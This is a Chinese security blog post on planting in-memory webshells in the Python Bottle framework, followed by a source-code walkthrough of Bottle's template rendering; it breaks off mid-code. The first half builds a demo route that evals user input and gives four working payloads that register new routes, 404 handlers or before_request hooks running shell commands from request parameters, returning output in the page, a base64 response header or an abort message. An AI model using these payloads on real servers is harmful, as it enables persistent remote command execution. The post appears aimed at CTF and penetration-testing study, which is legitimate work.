---
title: "探究Bottle框架的一些好玩的"
date: 2025-08-15T14:55:24+08:00
summary: "Bottle里面也有好多好玩的"
url: "/posts/探究Bottle框架的一些好玩的/"
categories:
  - "python"
tags:
  - "python内存马"
  - "SSTI"
draft: false
---

## Bottle内存马

### 0x01Bottle框架介绍

Bottle是一个快速，简单，轻量的 WSGI 微型Python web 框架。它只有一个文件模块，不依赖除了 Python标准库 之外的任何库。

- **Routing:** 请求到函数调用的映射，支持整洁和动态的URL。
- **Templates:** 快速且python风格的内置模板引擎，并支持 mako, jinja2 和cheetah。
- **Utilities:** 便捷的获取表单数据，文件上传，cookies，headers和其他HTTP相关的元数据(metadata)。
- **Server:** 内置HTTP开发服务器并支持paste, fapws3, bjoern, gae, cherrypy或其他任何的 WSGI HTTP 服务器。

另外，Bottle框架自带模板渲染功能，而不依赖于Jinja2这种模板引擎

```bash
pip3 install bottle
pip install bottle
```

直接下载最新版就行了

然后我们试着写一下动态路由和静态路由

- 静态路由

```python
from bottle import *

app = Bottle()

@app.route('/')
def index():
  return 'Hello world'

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8080, debug=True)
```

- 动态路由

包含一个或多个通配符的路由被视为动态路由。所有其他路由都是静态路由。

它可以匹配不止一个URL。一个简单的通配符(e.g. `<name>`)由包含在尖括号中直到下一个斜杠`/`前的一个或多个字符构成。例如，`/hello/<name>`既可以匹配请求`/hello/alice`，也可以匹配请求`/hello/bob`，但是不能匹配`/hello`,`/hello/`或`hello/mr/smith`

另外介绍几个过滤器

- **:int** 仅匹配数字(含符号)并将值转换为整型integer。
- **:float** 与 :int 相似但匹配小数。
- **:path** 非贪婪的方式匹配包含斜杠的所有字符，可以用来匹配不止一个路径的分割部分。
- **:re** 允许你在config域中指定自定义的正则表达式。匹配到的值不会被修改。

举个例子

```python
from bottle import *

app = Bottle()

@app.route('/object/<id:int>')
def callback(id):
    return f"ID = {id}"

@app.route('/')
def index():
  return 'Hello world'

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8080, debug=True)

```

我们跟进看一下route处理路由的逻辑

```python
    def route(self,
              path=None,
              method='GET',
              callback=None,
              name=None,
              apply=None,
              skip=None, **config):
        """ A decorator to bind a function to a request URL. Example::

                @app.route('/hello/<name>')
                def hello(name):
                    return 'Hello %s' % name

            The ``<name>`` part is a wildcard. See :class:`Router` for syntax
            details.

            :param path: Request path or a list of paths to listen to. If no
              path is specified, it is automatically generated from the
              signature of the function.
            :param method: HTTP method (`GET`, `POST`, `PUT`, ...) or a list of
              methods to listen to. (default: `GET`)
            :param callback: An optional shortcut to avoid the decorator
              syntax. ``route(..., callback=func)`` equals ``route(...)(func)``
            :param name: The name for this route. (default: None)
            :param apply: A decorator or plugin or a list of plugins. These are
              applied to the route callback in addition to installed plugins.
            :param skip: A list of plugins, plugin classes or names. Matching
              plugins are not installed to this route. ``True`` skips all.

            Any additional keyword arguments are stored as route-specific
            configuration and passed to plugins (see :meth:`Plugin.apply`).
        """
        if callable(path): path, callback = None, path
        plugins = makelist(apply)
        skiplist = makelist(skip)

        def decorator(callback):
            if isinstance(callback, basestring): callback = load(callback)
            for rule in makelist(path) or yieldroutes(callback):
                for verb in makelist(method):
                    verb = verb.upper()
                    route = Route(self, rule, verb, callback,
                                  name=name,
                                  plugins=plugins,
                                  skiplist=skiplist, **config)
                    self.add_route(route)
            return callback

        return decorator(callback) if callback else decorator
```

先解释一下方法的参数

- path：路由规则，可以是静态路由也可以是动态路由
- method：HTTP请求方法，默认是GET，这里也可以是列表(["POST","GET])
- callback：回调函数，可以直接传函数对象
- name：给路由起一个名字
- apply：额外要应用到这个路由的插件或装饰器。
- skip：插件、插件类或名称的列表。匹配
  此路由未安装插件。“True”跳过所有。

然后我们看一下处理逻辑



先是检查传入的path是否是一个可调用的函数，如果是则交换path和callback的值，将原本的path值传给callback，并将path设置为None。

在decorator内部函数中

这里最后调用了一个add_route方法去添加路由，将这个Route对象注册倒app的路由列表中，最后返回我们路由中的函数

走到add_route函数

```python
    def add_route(self, route):
        """ Add a route object, but do not change the :data:`Route.app`
            attribute."""
        self.routes.append(route)
        self.router.add(route.rule, route.method, route, name=route.name)
        if DEBUG: route.prepare()
```

在原先的路由列表上添加上新的路由信息，并将路由的规则，请求方法，路由名称都添加进去

这里的话调试可以发现，真正执行decorator去注册路由其实是在def 函数定义的时候，这时候才会进入decorator函数去进行调用而不是在app.route的时候

### 0x03如何调教callback

先前了解到这里有一个callback是可以作为回调函数或者说处理请求的函数，但是在路由本身解析的过程中也可以看出，他是需要与用户自定义的一个函数去进行绑定，那我们需要思考一下如何在不写一个完整def的情况下定义一个函数

第一个就是python自己默认的lambda表达式

**lambda 表达式**是一种 **匿名函数**，也就是说不需要使用 `def` 关键字定义函数，可以在一行内快速创建小函数。

语法

```python
lambda 参数1, 参数2, ...: 表达式
```

- `lambda` 表示创建匿名函数
- 冒号 `:` 右边是函数返回的表达式
- 这个表达式的结果就是函数的返回值

例如我们正常的定义函数

```python
def hello(x,y):
    return x + y
print(hello(2,3))#输出5
```

lambda写法

```python
add = lambda x,y: x+y
print(add(2,3))#输出5
```

那么这里我们写一个demo

```python
from bottle import *

app = Bottle()

@app.route('/shell')
def shell():
  user_input = eval(request.query.get('poc'))
  tpl = SimpleTemplate("Hello {{result}}")
  return tpl.render(result=user_input)

@app.route("/")
def index():
    return "Hello User!"

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8080, debug=True)

```

然后我们调用add_route去打一下

```html
/shell?poc=app.route("%2fb"%2c"GET"%2clambda+%3aprint(1))
```



然后我们访问/b路由，发现页面是空白的，但是在后台可以看到是输出1了



不过看到可以成功执行的命令的 所以我们注入路由是可行的,而且lambda表达式也是可以的

### 手法一：app.route添加路由

#### POC1

```python
/shell?poc=app.route("/b","GET",lambda :__import__('os').popen(request.params.get('cmd')).read())
```

然后传入/b?cmd=whoami 页面成功回显用户名

这个很好理解 本身我们的路由就是和回调函数绑定的 所以执行的命令 也会直接回显在路由上 所以我们就不需要找其他回显之类的就可以进行命令执行

### 手法二：app.error错误页面

我们先看看error函数

```python
    def error(self, code=500, callback=None):
        """ Register an output handler for a HTTP error code. Can
            be used as a decorator or called directly ::

                def error_handler_500(error):
                    return 'error_handler_500'

                app.error(code=500, callback=error_handler_500)

                @app.error(404)
                def error_handler_404(error):
                    return 'error_handler_404'

        """

        def decorator(callback):
            if isinstance(callback, basestring): callback = load(callback)
            self.error_handler[int(code)] = callback
            return callback

        return decorator(callback) if callback else decorator
```

`@error()` 装饰器实际上是注册一个错误处理函数，用于捕获特定的 HTTP 错误。错误处理函数会接受一个 `response` 对象和错误信息，并允许你自定义返回的错误页面或日志

如果传了 `callback` 参数，直接注册并返回函数，不然的话就返回一个decorator，可以用作装饰器使用

关注到一句

```python
callback = load(callback)
```

这里的话会检查如果传入的是一个字符串模板名或模块路径，就加载它

我们试一下

```python
/shell?poc=app.error(404)(lambda e: print(1))
```

然后随便访问一个不存在的路由，在后台就可以看到回显了



poc验证

#### POC2

```python
/shell?poc=app.error(404)(lambda e: __import__('os').popen(request.params.get('cmd')).read())
```

然后访问/a?cmd=whoami成功执行命令

### 手法三：hook钩子函数利用

在编程里，**hook（钩子）\**是一种机制，允许你在程序执行的某个特定点“插入”自定义代码。通俗来说，就是给程序预留的一个\**插入点**，你可以在这里挂载自己的函数，以改变或扩展程序行为，而无需修改原来的核心代码。

我们看看Bottle下有的hook函数



```python
    __hook_names = 'before_request', 'after_request', 'app_reset', 'config'
    __hook_reversed = {'after_request'}
```

这里的话定义了一个hook的名称，有每次请求前执行的hook、每次请求后执行的hook、应用重置时执行的hook、配置变更的时候执行的hook，并告诉我们如果存在多个after_request的时候会采取逆向反转的形式去调用，也就是后注册的先调用

然后我们看一下关于hook的一些操作



看看add_hook方法，这里接收一个hook名称以及一个需要注册的回调函数

处理逻辑：

- 如果hook在`__hook_reversed`，也就是after_request，就使用insert在开头的位置插入该方法，意思就是后注册的先调用
- 否则就直接添加在末尾，也就是后注册的后调用

我们这里随便选一个hook试一下

例如before_request

```python
/shell?poc=app.add_hook('before_request', lambda: print(1))
```

然后随便发送一个请求



再进行访问发现果然会触发函数，然后就需要思考如何将回显带到页面中呢

尝试一下之前的方法

```python
/shell?poc=app.add_hook('before_request', lambda: __import__('os').popen('whoami').read())
```

好吧貌似没有回显，那么只能在响应头下手了

如果想要控制响应头我们一定要关注一个操作对象 就是相应的reponse对象

在Bottle中有一个封装的BaseResponse类



不难翻到一个可以操作的类



`set_header` 方法用来设置一个 HTTP 响应头。`name` 是头的名字，例如 `"Content-Type"`。`value` 是头的值，例如 `"text/html"`。

所以调用 `set_header("Content-Type", "text/html")` 就会把响应的 `"Content-Type"` 设置为 `"text/html"`，如果之前有这个头，会直接替换掉。

那现在问题又来了，我们该如何调用到response对象 或者说操纵response对象

因为这个是在bottle中内置的，所以可以直接import去调用

```python
__import__('bottle'.response)
```

所以我们写一下poc

```python
/shell?poc=app.add_hook('before_request', lambda: __import__('bottle').response.set_header('X-flag',__import__('os').popen('whoami').read()))
```

但是报500了，后面发现是whoami这个命令输出结果会有一个`\n`，而响应头中不允许有换行符，所以编码一下吧

```python
/shell?poc=app.add_hook('before_request', lambda: __import__('bottle').response.set_header('X-flag',__import__('base64').b64encode(__import__('os').popen('whoami').read().encode('utf-8')).decode('utf-8')))
```



解码出来就是用户名

这里的话给一个好点的poc，可控的命令参数

#### POC3

```python
/shell?poc=app.add_hook('before_request', lambda: __import__('bottle').response.set_header('X-flag',__import__('base64').b64encode(__import__('os').popen(request.query.get('a')).read().encode('utf-8')).decode('utf-8')))
```



继续翻看bottle中的内置函数，注意到一个内置函数abort



这里的话会触发一个500的异常，但是这里的text是我们可控回显在页面上的，所以可以尝试写poc

```python
/shell?poc=app.add_hook('before_request', lambda: __import__('bottle').abort(500,__import__('os').popen('whoami').read()))
```

传入后发送请求



可以打，那就直接写poc

#### POC4

```python
/shell?poc=app.add_hook('before_request', lambda: __import__('bottle').abort(500,__import__('os').popen(request.query.get('a')).read()))
```



参考文章：https://forum.butian.net/share/4048

## Bottle中处理模板渲染

我发现Bottle中有一个很好玩的事情，就是关于他templates函数渲染模板的一个处理逻辑

### template函数处理

我们先来看一下templates函数的定义

```python
def template(*args, **kwargs):
    """
    Get a rendered template as a string iterator.
    You can use a name, a filename or a template string as first parameter.
    Template rendering arguments can be passed as dictionaries
    or directly (as keyword arguments).
    """
    tpl = args[0] if args else None
    for dictarg in args[1:]:
        kwargs.update(dictarg)
    adapter = kwargs.pop('template_adapter', SimpleTemplate)
    lookup = kwargs.pop('template_lookup', TEMPLATE_PATH)
    tplid = (id(lookup), tpl)
    if tplid not in TEMPLATES or DEBUG:
        settings = kwargs.pop('template_settings', {})
        if isinstance(tpl, adapter):
            TEMPLATES[tplid] = tpl
            if settings: TEMPLATES[tplid].prepare(**settings)
        elif "\n" in tpl or "{" in tpl or "%" in tpl or '$' in tpl:
            TEMPLATES[tplid] = adapter(source=tpl, lookup=lookup, **settings)
        else:
            TEMPLATES[tplid] = adapter(name=tpl, lookup=lookup, **settings)
    if not TEMPLATES[tplid]:
        abort(500, 'Template (%s) not found' % tpl)
    return TEMPLATES[tplid].render(kwargs)


mako_template = functools.partial(template, template_adapter=MakoTemplate)
cheetah_template = functools.partial(template,
                                     template_adapter=CheetahTemplate)
jinja2_template = functools.partial(template, template_adapter=Jinja2Template)
```

先看看形式参数：

- `*args`：可传模板内容、模板名或文件名。

- `**kwargs`：可传渲染模板需要的变量，或者模板引擎适配器等特殊参数。

```python
tpl = args[0] if args else None
for dictarg in args[1:]:
    kwargs.update(dictarg)
adapter = kwargs.pop('template_adapter', SimpleTemplate)
lookup = kwargs.pop('template_lookup', TEMPLATE_PATH)
```

这里的话会将第一个位置参数arg[0]作为模板源，如果没有就是None，后面会遍历剩余的位置参数并合并到kwargs中

从kwargs中提取模板引擎参数template_adapter和模板搜索路径template_lookup，模板引擎的话默认使用 Bottle 自带的 `SimpleTemplate`，模板搜索路径默认是TEMPLATE_PATH

```python
tplid = (id(lookup), tpl)
```

构建模板缓存的唯一 ID，用于缓存编译后的模板。

```python
if tplid not in TEMPLATES or DEBUG:
    settings = kwargs.pop('template_settings', {})
    if isinstance(tpl, adapter):
        TEMPLATES[tplid] = tpl
        if settings: TEMPLATES[tplid].prepare(**settings)
    elif "\n" in tpl or "{" in tpl or "%" in tpl or '$' in tpl:
        TEMPLATES[tplid] = adapter(source=tpl, lookup=lookup, **settings)
    else:
        TEMPLATES[tplid] = adapter(name=tpl, lookup=lookup, **settings)
if not TEMPLATES[tplid]:
    abort(500, 'Template (%s) not found' % tpl)
return TEMPLATES[tplid].render(kwargs)
```

如果模板缓存里没有这个模板，或者开启 DEBUG 模式，则重新构建模板对象，settings会获取模板设置，默认是空字典，这些设置会传入给模板引擎

如果传入的模板已经是模板对象（而不是字符串或文件名），直接缓存它。

重点关注这里

```python
elif "\n" in tpl or "{" in tpl or "%" in tpl or '$' in tpl:
    TEMPLATES[tplid] = adapter(source=tpl, lookup=lookup, **settings)
```

判断模板是否是模板字符串（含有换行、`{}`、`%` 或 `$`）。如果是就直接用adapter模板引擎创建模板对象并缓存

后面的话就是常规的渲染模板操作并返回渲染字符串

```python
mako_template = functools.partial(template, template_adapter=MakoTemplate)
cheetah_template = functools.partial(template,
                                     template_adapter=CheetahTemplate)
jinja2_template = functools.partial(template, template_adapter=Jinja2Template)
```

这里创建了三个预设模板函数，每个函数固定使用特定的模板引擎，那怎么去用他们呢？

```python
# 用 Mako 引擎渲染模板源码
tpl = "Hello ${name}!"
print(mako_template(tpl, name="Tom"))

# 用 Jinja2 引擎渲染
tpl2 = "Hello {{ name }}!"
print(jinja2_template(tpl2, name="Jerry"))
```

没错，就是这么简单快捷，然后我们来看一下

### bottle自带模板引擎

上面就是简单的代码分析，我们先来看看最重要的一个东西

```python
adapter = kwargs.pop('template_adapter', SimpleTemplate)
```

这里会根据参数中的template_adapter去选择模板引擎，默认是SimpleTemplate，不过翻了一下bottle模块，发现里面有三种模板引擎可以使用



但这些都是需要指定参数的，然后我们跟进SimpleTemplate看看

### SimpleTemplate模板引擎

官方文档：https://bottlepy.org/docs/dev/stpl.html

Bottle自带了一个快速，强大，易用的模板引擎，名为 *SimpleTemplate* 或简称为 *stpl* 。它是 `view()` 和 `template()` 两个函数默认调用的模板引擎。

`SimpleTemplate` 类实现了 `BaseTemplate` 接口

```python
class SimpleTemplate(BaseTemplate):
    def prepare(self,
                escape_func=html_escape,
                noescape=False,
                syntax=None, **ka):
        self.cache = {}
        enc = self.encoding
        self._str = lambda x: touni(x, enc)
        self._escape = lambda x: escape_func(touni(x, enc))
        self.syntax = syntax
        if noescape:
            self._str, self._escape = self._escape, self._str

    @cached_property
    def co(self):
        return compile(self.code, self.filename or '<string>', 'exec')

    @cached_property
    def code(self):
        source = self.source
        if not source:
            with open(self.filename, 'rb') as f:
                source = f.read()
        try:
            source, encoding = touni(source), 'utf8'
        except UnicodeError:
